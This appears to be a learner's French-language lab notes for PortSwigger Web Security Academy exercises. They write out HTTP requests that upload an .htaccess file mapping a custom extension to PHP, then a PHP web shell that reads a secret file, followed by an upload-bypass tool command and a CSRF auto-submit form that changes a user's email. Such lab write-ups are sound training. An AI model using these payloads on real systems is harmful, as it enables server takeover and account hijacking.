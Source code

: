 # Web

## Web shell upload via extension blacklist bypass

1) Il utilise apache2

![Wappanalyzer file upload](img/wap-up.png)
![site](img/site-up.png)


2) On upload une vrai image.

```http
POST /my-account/avatar HTTP/2
Host: raphzer.net
Cookie: session=YEEEEEEEEEEEEEEEEEEEE
Content-Length: 30156
Origin: https://raphzer.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAglUZXYB3a76I10x
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://raphzer.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

------WebKitFormBoundaryAglUZXYB3a76I10x
Content-Disposition: form-data; name="avatar"; filename="aie.jpg"
Content-Type: image/jpeg

{...}

------WebKitFormBoundaryAglUZXYB3a76I10x
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryAglUZXYB3a76I10x
Content-Disposition: form-data; name="csrf"

dzWJlCtYyYZRipYXf7rnG2flvqkOpovt
------WebKitFormBoundaryAglUZXYB3a76I10x--
```

3) Upload du .htacess 

`mod_php` : the PHP interpreter is then kind of "embedded" inside the Apache process, there is no external PHP process [Source](https://stackoverflow.com/questions/2712825/what-is-mod-php)

[Apache shell .htacess Cheat Sheet](https://github.com/wireghoul/htshells/)

```http
POST /my-account/avatar HTTP/2
Host: raphzer.net
Cookie: session=YEEEEEEEEEEEEEEEEEEEE
Content-Length: 30156
Origin: https://raphzer.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAglUZXYB3a76I10x
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://raphzer.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

------WebKitFormBoundaryAglUZXYB3a76I10x
Content-Disposition: form-data; name="avatar"; filename=".htacess"
Content-Type: image/jpeg

AddType application/x-httpd-php .zbi

------WebKitFormBoundaryAglUZXYB3a76I10x
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryAglUZXYB3a76I10x
Content-Disposition: form-data; name="csrf"

dzWJlCtYyYZRipYXf7rnG2flvqkOpovt
------WebKitFormBoundaryAglUZXYB3a76I10x--
```

4) upload du Webshell

```http
POST /my-account/avatar HTTP/2
Host: raphzer.net
Cookie: session=YEEEEEEEEEEEEEEEEEEEE
Content-Length: 30156
Origin: https://raphzer.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAglUZXYB3a76I10x
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://raphzer.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

------WebKitFormBoundaryAglUZXYB3a76I10x
Content-Disposition: form-data; name="avatar"; filename="webshell.zbi"
Content-Type: image/jpeg

<?php system("cat /home/carlos/secret"); ?>

------WebKitFormBoundaryAglUZXYB3a76I10x
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryAglUZXYB3a76I10x
Content-Disposition: form-data; name="csrf"

dzWJlCtYyYZRipYXf7rnG2flvqkOpovt
------WebKitFormBoundaryAglUZXYB3a76I10x--
```


X) Rien donné

```bash
python3 upload_bypass.py -r ../Portswigger/req.txt -s 'has been uploaded' -E php -D /files/avatars/ --exploit
```


## OAuth account hijacking via redirect_uri


## CSRF
https://0a2b009103a1450c81658e4d0027007a.web-security-academy.net/

<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything%40web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>

##